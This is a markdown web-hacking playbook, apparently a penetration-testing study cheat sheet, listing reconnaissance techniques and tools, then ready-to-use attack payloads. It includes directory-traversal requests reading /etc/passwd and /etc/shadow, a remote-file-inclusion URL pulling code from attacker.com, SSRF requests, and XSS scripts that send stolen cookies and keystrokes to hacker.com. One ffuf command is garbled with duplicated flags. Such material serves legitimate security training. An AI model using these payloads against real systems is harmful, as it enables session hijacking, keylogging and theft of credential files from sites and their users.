 # High Level Web Hacking Playbook

## OSINT/Research/Recon

1. ***Walking an application***
   * View Source - Use your browser to view the human-readable source code of a website.
   * Inspector - Inspect page elements and make changes to view usually blocked content.
   * Debugger - Inspect and control the flow of a page's JavaScript
   * Network - See all the network requests a page makes using the developer tools.
2. ***Content discovery***
   * Manual Discovery:
      * **robots.txt**
         * Look for points of interest
      * **favicon.ico**
         * Sometimes when frameworks are used to build a website, a favicon that is part of the installation gets leftover. You can then use [OWASP Favicon Database](https://wiki.owasp.org/index.php/OWASP_favicon_database) to find clues on which frameworks are in use.
      * **Sitemap.xml**
         * Look for points of interest
      * **HTTP Headers**
         * Look at the return headers from requests to the site such as the webserver software and possibly the programming/scripting language in use.
      * **Framework Recon**
         * Search for default things based on the framework in use for the following:
            - [ ] admin panels
            - [ ] credentials
            - [ ] server pages
      * **OSINT**
         * *Google Dorking*
            * Search google for the following:
               - [ ] ```site:<somewebsite.com>```
               - [ ] ```inurl:admin```
               - [ ] ```filetype:pdf```
               - [ ] ```intitle:admin```
               - More can be found at: [Google Hacking](https://en.wikipedia.org/wiki/Google_hacking)
         * [*Wappalyzer*](https://www.wappalyzer.com/)
            * Identify what technologies the website uses, such as frameworks, Content Management Systems (CMS), payment processors, version number, etc.
         * [*Wayback Machine*](https://archive.org/web/)
            * Great for research into old pages that may still be active.
         * Github
            * Locate repositories owned by target. Look for passwords, configs, and framework clues.
         * S3 Buckets
            *  The format of the S3 buckets is http(s)://{name}.s3.amazonaws.com 
            * Search common terms such as {name}-assets, {name}-www, {name}-public, {name}-private, etc.
   * Automated Discovery
      * Using wordlists like those from [SecLists](https://github.com/danielmiessler/SecLists) use tools to search for pages, frameworks, etc.
      * **ffuf**: ```ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://MACHINE_IP/FUZZ```
      * **dirb**: ```dirb http://MACHINE_IP/ /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt```
      * **gobuster**: ```gobuster dir --url http://MACHINE_IP/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt```
3. Subdomain Enumeration
   * SSL/TLS Certificates
      * Get certificate information via [*crt.sh*](https://crt.sh/) or [*ctsearch*](https://ui.ctsearch.entrust.com/ui/ctsearchui)
   * Search Engines
      * Google Dork the following:
         * ```-site:www.domain.com site:*.domain.com```
   * DNS Bruteforce
      * Use [*DNSRecon*](https://www.kali.org/tools/dnsrecon/) to search for DNS information: ```dnsrecon -d example.com -D /usr/share/wordlists/dnsmap.txt -t std --xml dnsrecon.xml```
   * Sublist3r
      * Enumerate domains with [*Sublist3r*](https://github.com/aboul3la/Sublist3r): ```python sublist3r.py -d example.com```
   * Non public DNS search
      * **ffuff**: ```ffuf -w ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.com" -u http://MACHINE_IP -H "Host: FUZZ.acmeitsupport.com" -u http://MACHINE_IP -fs {size}```
         * Use fs to filter out packets via size to refine results

## Active Hacking

### IDOR - Insecure Direct Object Reference
Investigate IDOR objects and reference numbers

* **IDOR Automation**
   * [**IDOR Hunter**](https://github.com/SKHTW/IDOR_Scanner)

### File Inclusion
Search for LFI (Local File Inclusion), RFI (Remote File inclusion), and directory traversal

* **LFI**
   * LFI can potentially be explouted when endpoints like ```http://webapp.com/index.php?lang=EN``` exist. 
   * **Notes**:
      * Using null bytes is an injection technique where URL-encoded representation such as ```%00``` or ```0x00``` in hex with user-supplied data to terminate strings. You could think of it as trying to trick the web app into disregarding whatever comes after the Null Byte.
   
   * Investigate paths like:
      * ```/page1.php?file=/etc/passwd```
      * ```/lab3.php?file=../../../../etc/passwd%00```
* **RFI**
   * ```http://webapp.com/index.php?lang=http://attacker.com/cmd.txt```

* **Directory Traversal**
   * ```http://webapp.com/get.php?file=../../../../etc/passwd```
   * ```http://webapp.com/get.php?file=../../../../etc/shadow```

   * ```http://webapp.com/get.php?file=../../../../boot.ini```
   * ```http://webapp.com/get.php?file=../../../../windows/win.ini```

## SSRF - Server-Side Request Forgery
There are two types of SSRF vulnerability; the first is a regular SSRF where data is returned to the attacker's screen. The second is a Blind SSRF vulnerability where an SSRF occurs, but no information is returned to the attacker's screen.

* **Directory Traversal**
   * ```http://webapp.com/stock?url=/../user```
   * ```http://webapp.com/stock?server=api.webapp.com/api/user/&x=&id=123```
      * **Note** the payload ending in ```&x=``` being used to stop the remaining path from being appended to the end  of the attackers url, and instead turns it into a parameter.
   * ```http://webapp.com/stock?url=http://hacker-domain.com/```

## XSS - Cross-Site Scripting
* PoC
   * ```<script>alert('XSS');</script>```
* Session Stealing
   * ```<script>fetch('https://hacker.com/steal?cookie=' + btoa(document.cookie));</script>```
* Key Logger
   * ```<script>document.onkeypress = function(e) { fetch('https://hacker.com/log?key=' + btoa(e.key) );}</script>```
* Business Logic / Function Call
   * ```<script>user.changeEmail('attacker@hacker.com');</script>```

* **Reflected XSS**
   * You'll need to test every possible point of entry; these include:

      * Parameters in the URL Query String
      * URL File Path
      * Sometimes HTTP Headers (although unlikely exploitable in practice)
* **Stored XSS**
   * The XSS must be stored in something like the websites DB
   * You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:
      * Comments on a blog
      * User profile information
      * Website Listings
